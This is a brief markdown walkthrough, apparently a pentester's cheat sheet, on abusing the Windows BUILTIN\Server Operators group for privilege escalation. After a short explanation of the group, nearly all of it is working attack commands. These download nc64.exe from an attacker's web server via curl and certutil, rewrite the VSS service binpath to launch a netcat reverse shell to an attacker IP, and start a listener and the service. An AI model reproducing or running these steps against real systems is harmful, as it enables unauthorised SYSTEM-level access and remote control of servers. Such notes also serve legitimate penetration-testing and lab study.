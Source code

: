 # BUILTIN\Server Operators
On a Windows Server, BUILTIN\Server Operators is a local built-in group. Its intended purpose is to give trusted users significant administrative control over the server itself, without making them full Domain Admins or local Administrators.

Think of them as the "senior janitorial staff" or "data center technicians" for a specific server. They aren't allowed to change the building's blueprints (domain policy), but they have the keys to every room (server) and can control all the equipment inside.

# Step By Step
1. Transfer the nc64.exe Binary.
2. vss service check.
3. Configure the command Execution.
4. Stop and start the service.

# Transfer Binary
```language
locate nc64.exe
python3 -m http.server 80

curl http://ip:80/nc64.exe
certutil -urlcache -f http://ip:80/nc64.exe nc64.exe
```
# Check service and Configure the Command
```language
get-service vss       #service check

sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd ip  9001"       #configure it
or
sc.exe config vss binpath="C:\Users\user-name\Desktop\nc.exe -e cmd.exe ip 9001"
```
# Start listner and service
```language
rlwrap nc -lvnp 9001

sc.exe start vss
```
